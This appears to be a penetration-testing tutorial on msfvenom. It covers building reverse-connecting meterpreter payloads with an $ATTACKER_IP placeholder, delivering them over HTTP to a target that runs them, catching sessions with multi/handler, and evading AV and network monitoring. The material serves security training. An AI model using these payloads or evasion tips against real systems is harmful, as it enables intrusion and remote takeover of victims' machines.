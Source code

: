 # Generating Payloads With Msfvenom

## Client-side Attacks

+ A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.

+ Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).

+ Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.

**Note**: There's a critical decision depending on the type of system you are targeting. If you are targeting a server that is running on a networking and it is providing services to other hosts, you need to approach the situation with server side attacks, targeting the services directly, like web, ftp or ssh servers. If you are target an end user system, like a workstation or laptop, you need to use client side attacks, where you'll have to generate malicious payloads and make use of a diverse set of social engineering techniques.

+ Given that this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be cognisant of AV detection.

## Msfvenom

+ Msfvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.

+ Msfvenom is a combination of two utilities, namely; msfpayload and msfencode.

**Note**: Msfvenom comes prepackaged with the metasploit framework, so there is no need to install it.

+ We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## Laboratory

For this technical demonstration we won't need a lab environment. We can follow along using a simple kali virtual machine.

- Run `msfvenom` to check some options and a little bit of information about the utility. With msfvenom we can generate staged and non-staged payloads.

- We can list all the payloads using `msfvenom --list payloads`. There's plenty of payloads we can choose from. However, we will focusing on meterpreter payloads to work in conjunction with the metasploit framework. Note that we can differentiate between a x64 payload and a x86 by reading the name. While x86 has a simple name, the x64 version of the payload specifies it in the name. Sometimes the payload also specifies the x86 arch. We can also differentiate between a staged and non-staged payload by looking at the last part of the name. There is a slash between the payload type and the protocol to be used in staged payloads `windows/x64/meterpreter/reverse_http` and it is not present on non-staged payloads `windows/x64/meterpreter_reverse_http`.

**Note**: Take into consideration that x64 payloads will never run in x86 arch. It is a safe play if we use the 32 bit payload if we are not sure if the target is running x64 or x86.

**Note**: Remember that connections that are directed to the attacker machine could be a bit suspicious in logs and networks. So, for example, if you are trying to connect via reverse http in a network that works over https, the best option would be to mask the connection using reverse https instead.

- To generate a malicious payload, we can run `msfvenom -a $ARCH -p $PAYLOAD_NAME LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f $FILE_FORMAT > /path/to/new/payload.$FILE_FORMAT` where $ARCH could be x64 or x86 and the $PAYLOAD_NAME should be one of the list we saw previously. The file format can be pass as argument as well and the output name should match the format specified. With this option the payload will be raw, so it won't be encoded. We could also specify the platform it should target, but if not specified, it will fall to the platform specified in the name.

**Note**: The most important things you must specify when crafting the payload is the payload name and the architecture.

**Note**: You cannot change payload architecture or options after creation. You can only create new payloads as needed.

- We can list all formats by running `msfvenom --list formats` notice we have binaries and not compiled payloads.

**Note**: When crafting linux binary payloads, they don't need extension at all as they could be executed right away.

### Transfering Payload to the target

- To transfer the malicious payloads to the target machine, in this case we will start with windows. We need to have a windows 7 machine in the same network as our kali machine. We are going to setup a simple http web server and try to download the payloads to the windows machine from a web browser. Once we setup the web server, we are going to set up the listener using the msfconsole module `multihandler`. We only need to run `use multi/handler` inside the msfconsole and change the payload to the payload we crafted using msfvenom. And we also need to configure the LHOST and LPORT we configured in the payload with msfvenom.

**Note**: When using meterpreter payloads, we need to use the multihandler module to properly handle the connection. Simpler handlers like netcat could not work properly.

- From the windows target machine, enter the browser and download the payloads. Execute them and then you should see something happening on your kali machine, it should open a meterpreter session on the multihandler.

- For linux, we can do exactly the same, or even execute it from kali to test it out. It will connect to the multihandler and establish the meterpreter session.
